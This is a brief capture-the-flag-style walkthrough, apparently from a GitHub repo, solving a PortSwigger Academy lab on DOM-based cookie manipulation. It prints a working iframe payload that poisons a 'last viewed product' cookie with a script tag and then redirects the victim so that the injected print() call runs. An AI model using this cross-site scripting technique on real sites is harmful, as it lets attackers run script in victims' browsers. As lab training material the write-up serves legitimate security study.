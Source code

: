 # DOM-based cookie manipulation

## This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause [XSS](https://portswigger.net/web-security/cross-site-scripting) on a different page and call the `print()` function. You will need to use the exploit server to direct the victim to the correct pages.

___

**HINT:**

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
```

step 1

go to lab there a link `Last viewed product` next to home
when you will open any product then open another product it will display the last product
which is vulnerable
use Hint: replace with lab URl

```html
<iframe src="https://0a680071032737bc80fa268d00cf004f.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://0a680071032737bc80fa268d00cf004f.web-security-academy.net/';window.x=1;">
```

step 2

go to exploit section 
paste and click on deliver to exploit you will see lab solved

![](images/lab6_0.jpg)

![](images/lab6_1.jpg)